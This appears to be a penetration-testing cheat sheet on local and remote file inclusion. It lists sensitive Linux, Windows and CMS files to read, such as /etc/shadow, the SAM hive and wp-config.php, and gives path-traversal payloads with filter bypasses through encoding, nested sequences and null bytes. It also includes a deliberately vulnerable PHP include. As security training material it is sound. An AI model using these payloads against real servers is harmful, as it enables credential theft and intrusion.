 # Local and remote file inclusion
Local file inclusion (LFI) vulnerabilities allow an attacker to read local files on the web server using malicious web requests. These files can include web configuration files, log files, password files and other sensitive system data. LFI can also be used for remote code execution (RCE). In most cases, this vulnerability is due to poor input sanitization.

Remote file inclusions are similar, but the attacker is taking advantage of the web server's ability to call local files, and using it to upload files from remote servers. These remote files can be malicious code that executes in the context of the web server user (e.g. www-data).

## Interesting files
If an LFI vulnerability exists, look for these files:

### Linux
Linux system files:
```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
```
**Log files**
Potentially interesting logfiles:
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
```
**CMS configuration files**
Content management system configuration files:
```
WordPress: /var/www/html/wp-config.php
Joomla: /var/www/configuration.php
Dolphin CMS: /var/www/html/inc/header.inc.php
Drupal: /var/www/html/sites/default/settings.php
Mambo: /var/www/configuration.php
PHPNuke: /var/www/config.php
PHPbb: /var/www/config.php
```
### Windows
Files that may exist on Windows systems:
```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```
The system and SAM files might be in different locations. As well, the path might be case-sensitive, even though it's Windows. 
```
# SYSTEMROOT is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Techniques

### Basic
Assuming you are on a Linux system, test if you can display `/etc/passwd` by moving back 5 directory levels:
```
http://host/?page=../../../../../etc/passwd
```
Even if this doesn't work, it doesn't mean that the website is immune to path traversal. When filtering input, developers will often prevent the use of forward slashes, but not backslashes or encoded characters.

### Nesting traversal sequences
If the application is attempting to sanitize user input by removing traversal sequences, but does not apply this filter recursively, then it may be possible to bypass the filter by placing one sequence within another:

```
....//

....\/

..../\

....\\
```

### URL-encoded
Encoding all the slashes and dots in your path traversal could bypass input filters:
 
```
dot             %2e
forward slash   %2f
backslash       %5c
```
Example: 
```
 %2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc%5cpasswd
```

### Double URL-encoded
Another encoding method:
```
dot             %252e
forward slash   %252f
backslash       %255c
```
Example:
```
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```
### Overlong UTF-8 encoding
You can also use the illegal Unicode payload type in Burp Intruder for this technique:

```
dot             %c0%2e  %e0%40%ae  %c0ae etc.
forward slash   %c0%af  %e0%80%af  %c0%2f etc.
backslash       %c0%5c  %c0%80%5c  etc.
```

### Null-byte injection
Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator (`%00` or `0x00` in hex) added to the LFI/RFI parameter will stop processing immediately, so that any bytes following it are ignored.

In the following code example, the extension `.php` added to the file request variable `$file`:
```
$file = $_GET['page'];
require_once("/var/www/$file.php");
```
Requesting `/etc/passwd` in this case will not work because the request becomes `passwd.php` resulting in a 404 error. However, if we add a null byte to the passwd file name it will terminate at the end of `passwd` and discard the remaining bytes:
```
http://website/page=../../../etc/passwd%00
```

## Further reading
* [Local File Inclusion by xapax](https://xapax.gitbooks.io/security/content/local_file_inclusion.html)
* [Bypassing filters for path traversal](https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html)
